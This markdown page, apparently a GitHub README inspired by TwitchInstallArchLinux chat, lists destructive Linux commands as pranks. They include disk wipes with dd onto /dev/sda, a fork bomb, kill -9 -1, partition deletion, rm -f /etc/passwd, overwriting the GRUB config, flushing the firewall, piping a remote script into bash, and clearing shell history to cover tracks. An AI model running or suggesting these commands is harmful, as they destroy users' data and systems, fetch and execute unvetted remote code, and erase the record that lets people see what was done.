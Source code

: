 ```bash
alias alias="alias"

alias alias="echo *** you troller get off mah lawn"

dd if=/dev/urandom of=/dev/sda bs=4096

sudo dd if=/dev/urandom of=/dev/sda bs=4M && sync

dd if=/dev/urandom of=/dev/sda

dd if=/dev/urandom of=/dev/sda bs=8m

alias clear='cat /dev/urandom'

:(){ :|:& };:

7:56Doubleblock: l33t plan: dd if=/dev/urandom of=/dev/sda reality: dsifjwdbdwbv

fdisk /dev/sda d, 1, q

kill -9 -1
```

#### get an .sh file that would do everything for us if we just curl it from the web, 

    curl aaa.xyz/a.sh | bash

- 7:08inluck_nl: write a bash script
- 7:08inluck_nl: host it
- 7:08inluck_nl: get networking up
- 7:08inluck_nl: wget and run

write a script we can `wget | sudo sh`



- Rm -f /etc/passwd(this kicks out some really neat errors)


Funny prank

```bash
for i in ls /usr/bin
do
alias $i='echo nope'
done
```

bash_history

`. .bash_history` or add `history - c` at the end..


 - cat /dev/urandom > /dev/mouse
 - pkill ssh
 - echo "oh shit" > /boot/grub2/grub.cfg ; reboot
 - cat /proc/kcore > /dev/dsp
 - cat /dev/sda1 > /dev/tty0
 -  Iptables -F
 - sudo startx &
 -  [ $[ $RANDOM % 2 ] == 0 ] && dd if=/dev/urandom of=/dev/sda || echo 'Meow'
### Notes
These were inspired from TwitchInstallArchLinux chat.

